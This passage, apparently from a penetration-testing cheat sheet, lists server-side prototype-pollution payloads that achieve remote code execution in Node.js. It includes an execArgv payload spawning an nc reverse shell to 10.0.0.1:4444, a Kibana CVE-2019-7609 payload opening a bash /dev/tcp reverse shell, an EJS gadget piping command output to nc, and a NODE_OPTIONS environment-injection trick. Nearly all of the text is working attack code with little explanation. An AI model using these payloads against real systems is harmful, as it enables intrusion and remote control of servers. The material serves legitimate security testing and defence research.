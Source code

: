 **shell**: It enables us to set a specific shell such as **`sh`**, **`bash`**, in which to run commands.

**NODE\_OPTIONS**: The environment variable that defines the command-line arguments.

### RCE via `child_process.spawn()`, `child_process.fork()`

```json
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')"
]}
```

### Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

### Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)

```
{    "__proto__": {        "client": 1,        "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"    }}
```

### Overwrite Environment Variable

```json
"constructor":{
	"prototype":{
		"env":{
			"xyz":"require('child_process').execSync('whoami').toString()"
		},
		"NODE_OPTIONS":"--require /proc/self/environ"
	}
}
```

* **`env`**\
  Set the value of the `xyz` to environment variables.
* **`--require /proc/self/environ`**\
  Inject environment variables from the current process as a module.

## Resources
